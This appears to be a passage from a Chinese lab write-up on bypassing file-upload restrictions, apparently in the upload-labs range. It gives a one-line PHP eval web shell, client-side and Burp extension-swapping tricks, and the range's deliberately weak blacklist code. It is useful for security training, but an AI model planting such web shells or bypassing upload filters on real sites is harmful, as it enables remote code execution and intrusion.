 在上传前先禁用掉 JavaScript

![](https://img.wukaipeng.com/2023/1017-075949-image-20231017075948931.png)

首先我们上传文件 `info.php`，内容是输出 php 信息：

```php
<?php phpinfo(); ?>
```

![](https://img.wukaipeng.com/2023/10/19-070309-image-20231019070309633.png)我们也可以上传 `get.php`，直接用参数控制输出

```php
<?php eval(@$_GET['cmd']); ?>
```

![](https://img.wukaipeng.com/2023/10/19-071303-image-20231019071303290.png)

### 修改后缀名

先把 `get.php` 修改为符合上传要求 👉 `get.png`，然后用 Burp 抓包改回原来的 `get.php`

![](https://img.wukaipeng.com/2023/10/19-071741-image-20231019071740872.png)



### 修改前端代码

删除 `onsubmit` 方法，这种方式仅在 FireFox 生效：

![](https://img.wukaipeng.com/2023/10/19-072230-image-20231019072230409.png)

## 服务端 - 黑名单绕过

### 特殊后缀

在 pass03，这里后端无法上传的黑名单包括 `.asp`, `.aspx`, `.php`, `.jsp`。



```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array('.asp','.aspx','.php','.jsp');
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if(!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;            
            if (move_uploaded_file($temp_file,$img_path)) {
                 $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '不允许上传.asp,.aspx,.php,.jsp后缀文件！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
```